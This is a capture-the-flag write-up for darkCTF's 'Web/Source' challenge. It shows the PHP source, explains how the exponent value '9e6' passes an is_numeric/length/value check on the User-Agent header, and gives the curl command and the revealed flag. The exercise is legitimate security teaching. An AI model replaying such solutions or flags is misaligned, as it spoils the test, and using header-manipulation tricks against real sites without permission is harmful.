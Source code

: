 # Web/Source

### Problem Description

Don't know source is helpful or not !!
Web link: [web](http://web.darkarmy.xyz)
Source file link: [file](https://mega.nz/file/K011ACaL#S6kfjaYxN_cOcYHYzBKpKKsqAf3dh7PS0-lKFIuGjZA)
Category: Web 101

### File
```
<html>
    <head>
        <title>SOURCE</title>
        <style>
            #main {
    height: 100vh;
}
        </style>
    </head>
    <body><center>
<link rel="stylesheet" href="https://www.w3schools.com/w3css/4/w3.css">
<?php
$web = $_SERVER['HTTP_USER_AGENT'];
if (is_numeric($web)){
      if (strlen($web) < 4){
          if ($web > 10000){
                 echo ('<div class="w3-panel w3-green"><h3>Correct</h3>
  <p>darkCTF{}</p></div>');
          } else {
                 echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Ohhhhh!!! Very Close  </p></div>');
          }
      } else {
             echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Nice!!! Near But Far</p></div>');
      }
} else {
    echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Ahhhhh!!! Try Not Easy</p></div>');
}
?>
</center>
<!-- Source is helpful -->
    </body>
</html>
```




## Solving the Challenge
When logging onto the webpage we are greated with something that looks like this.
``
**WRONG!**
**Ahhhhh, Try not Easy**
``

If we examine the PHP script we can see that it takes User Agent information and stores it in the variable `$web`.
`$web` is then checked to see if it is numeric or not, if it is it checks it's length and value in order to display the flag.
In order to get the flag displayed the string has to be numeric, length less than 4, and value > 10000.

Lets take a closer look at PHP [is_numeric](https://www.php.net/manual/en/function.is-numeric.php) to understand it.
We can see that it accepts expotential values and in order to get a value greater than 10000 that is less than 4 digits,
we must use some sort of operation and expotentiation is great for that.

Now we just have to send the value to webserver and get the flag!
Using curl we can enter
```
brandon@LAPTOP-HRFEV0OI:~$ curl -H "User-Agent:9e6" http://web.darkarmy.xyz/
<html>
    <head>
        <title>SOURCE</title>
        <style>
            #main {
    height: 100vh;
}
        </style>
    </head>
    <body><center>
<link rel="stylesheet" href="https://www.w3schools.com/w3css/4/w3.css">
<div class="w3-panel w3-green"><h3>Correct</h3>
  <p>darkCTF{changeing_http_user_agent_is_easy}</p></div></center>
<!-- Source is helpful -->
    </body>
</html>brandon@LAPTOP-HRFEV0OI:~$
```
Giving us the flag being: darkCTF{changeing_http_user_agent_is_easy}
